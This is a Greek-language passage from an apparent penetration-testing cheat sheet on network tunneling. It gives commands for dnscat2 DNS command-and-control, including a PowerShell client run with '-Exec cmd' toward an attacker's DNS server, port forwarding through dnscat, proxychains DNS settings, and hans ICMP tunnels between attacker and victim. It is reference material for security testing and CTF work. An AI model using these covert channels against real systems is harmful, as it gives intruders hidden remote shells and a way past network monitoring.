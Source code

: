 [**Κατεβάστε το από εδώ**](https://github.com/iagox86/dnscat2)**.**

Δημιουργεί ένα κανάλι C\&C μέσω DNS. Δεν απαιτεί δικαιώματα root.
```bash
attacker> ruby ./dnscat2.rb tunneldomain.com
victim> ./dnscat2 tunneldomain.com

# If using it in an internal network for a CTF:
attacker> ruby dnscat2.rb --dns host=10.10.10.10,port=53,domain=mydomain.local --no-cache
victim> ./dnscat2 --dns host=10.10.10.10,port=5353
```
#### **Στο PowerShell**

Μπορείτε να χρησιμοποιήσετε [**dnscat2-powershell**](https://github.com/lukebaggett/dnscat2-powershell) για να εκτελέσετε έναν πελάτη dnscat2 στο powershell:
```
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.10.10 -Domain mydomain.local -PreSharedSecret somesecret -Exec cmd
```
#### **Προώθηση θύρας με dnscat**
```bash
session -i <sessions_id>
listen [lhost:]lport rhost:rport #Ex: listen 127.0.0.1:8080 10.0.0.20:80, this bind 8080port in attacker host
```
#### Αλλαγή DNS του proxychains

Το Proxychains παρεμβαίνει στην κλήση `gethostbyname` της libc και στέλνει τα αιτήματα DNS tcp μέσω του socks proxy. Από **προεπιλογή**, ο **DNS** διακομιστής που χρησιμοποιεί το proxychains είναι **4.2.2.2** (σκληρά κωδικοποιημένος). Για να τον αλλάξετε, επεξεργαστείτε το αρχείο: _/usr/lib/proxychains3/proxyresolv_ και αλλάξτε τη διεύθυνση IP. Αν βρίσκεστε σε **περιβάλλον Windows**, μπορείτε να ορίσετε τη διεύθυνση IP του **domain controller**.

## Τούνελ σε Go

[https://github.com/hotnops/gtunnel](https://github.com/hotnops/gtunnel)

## ICMP Tunneling

### Hans

[https://github.com/friedrich/hans](https://github.com/friedrich/hans)\
[https://github.com/albertzak/hanstunnel](https://github.com/albertzak/hanstunnel)

Απαιτείται root και στα δύο συστήματα για να δημιουργηθούν οι προσαρμογείς tun και να μεταφερθούν δεδομένα μεταξύ τους χρησιμοποιώντας αιτήματα ICMP echo.
```bash
./hans -v -f -s 1.1.1.1 -p P@ssw0rd #Start listening (1.1.1.1 is IP of the new vpn connection)
./hans -f -c <server_ip> -p P@ssw0rd -v
ping 1.1.1.100 #After a successful connection, the victim will be in the 1.1.1.100
```
### ptunnel-ng
